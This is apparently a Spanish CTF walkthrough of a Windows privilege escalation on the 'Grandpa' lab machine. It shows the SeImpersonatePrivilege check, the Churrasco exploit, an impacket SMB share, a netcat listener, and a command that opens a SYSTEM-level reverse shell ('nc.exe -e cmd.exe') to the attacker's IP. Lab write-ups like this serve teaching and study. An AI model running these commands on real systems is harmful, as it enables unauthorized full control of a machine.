 vemos los privilegios que tiene nuestro usuario y vemos que tenemos el privilegio SeImpersonatePrivilege 

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

por lo tanto podemos usar el exploit churrasco para explotar ese privilegio y poder escalar privilegios

```bash
https://github.com/Re4son/Churrasco/blob/master/churrasco.exe
```

asi que en nuestra carpeta de trabajo creamos un servidor samba con impacket

```bash
Grandpa # ❯ impacket-smbserver shared . -smb2support
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

dejamos el puerto 443 en escucha

```bash
Grandpa # ❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
```

y ejecutamos dicho comando en la maquina victima para obtener una reverse shell con permisos de nt authority system

```bash
\\10.10.14.54\shared\churrasco.exe "\\\\10.10.14.54\\shared\\nc.exe -e cmd.exe 10.10.14.54 443"
```
